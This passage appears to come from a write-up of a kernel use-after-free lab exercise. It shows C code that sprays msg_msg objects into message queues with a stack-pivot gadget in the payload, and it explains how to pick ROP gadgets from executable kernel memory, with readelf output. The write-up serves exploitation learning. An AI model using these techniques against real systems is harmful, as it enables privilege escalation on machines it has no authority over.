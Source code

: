 ```c
		ops[i] = 0xdeadbeefdeadbe00 + i;
	}
	ops[12] = gadget_pivot; //
	// ops[20] = ret_gadget; /
    // ops[12] = 0xdeadbeefdeadbe12;
	if (msgsnd(queue, &msg, MSG_SZ, IPC_NOWAIT) == -1) {
        fails++;
    }
	return fails;
}

// calling the above function to spam 25 messages in each queue :D
for(int i = 0; i < msg_count; i++) {
  printf("[+] Spraying msg_msg in message queue %d: %d\n", i, msg_queue[i]);
  for(int j = 0; j < 25; j++) {
    fails += set_message(i, msg_queue);
  }
}
```

I initially aimed to build a ROP chain similar to the one in [h0mbre’s walkthrough](https://h0mbre.github.io/PAWNYABLE_UAF_Walkthrough/) — and honestly, I thought I had nailed it. But later I realized I was resolving gadgets at incorrect addresses: ones that either didn’t have executable permissions or simply didn’t exist when I examined the memory in `gdb`.

The key takeaway here is: **you need to extract your ROP gadgets from valid, executable kernel memory regions.** This ensures your gadgets are both present and usable when triggered during exploitation.

You can use the following commands to list valid regions and extract usable ROP gadgets:

```sh
readelf -Wl vmlinux

Elf file type is EXEC (Executable file)
Entry point 0x1000000
There are 5 program headers, starting at offset 64

Program Headers:
  Type           Offset   VirtAddr           PhysAddr           FileSiz  MemSiz   Flg Align
  LOAD           0x200000 0xffffffff81000000 0x0000000001000000 0x185e854 0x185e854 R E 0x200000
  LOAD           0x1c00000 0xffffffff82a00000 0x0000000002a00000 0x7df000 0x7df000 RW  0x200000
  LOAD           0x2400000 0x0000000000000000 0x00000000031df000 0x02cae8 0x02cae8 RW  0x200000
  LOAD           0x260c000 0xffffffff8320c000 0x000000000320c000 0x273000 0x424000 RWE 0x200000
  NOTE           0x1a5e800 0xffffffff8285e800 0x000000000285e800 0x000054 0x000054     0x4

 Section to Segment mapping:
  Segment Sections...
   00     .text .rodata .pci_fixup .tracedata __ksymtab __ksymtab_gpl __ksymtab_strings __init_rodata __param __modver __ex_table .notes 
   01     .data __bug_table .orc_header .orc_unwind_ip .orc_unwind .orc_lookup .vvar 
   02     .data..percpu 
   03     .init.text .altinstr_aux .init.data .x86_cpu_dev.init .parainstructions .retpoline_sites .return_sites .call_sites .ibt_endbr_seal .altinstructions .altinstr_replacement .apicdrivers .exit.text .smp_locks .data_nosave .bss .brk 
   04     .notes 
```
From here, we can identify the address range for the `.text` section of the kernel and use the `ROPGadget` tool to find usable gadgets. Interestingly, gadgets from the `.init.text` region won't  likely work because that region is discarded after kernel initialization.
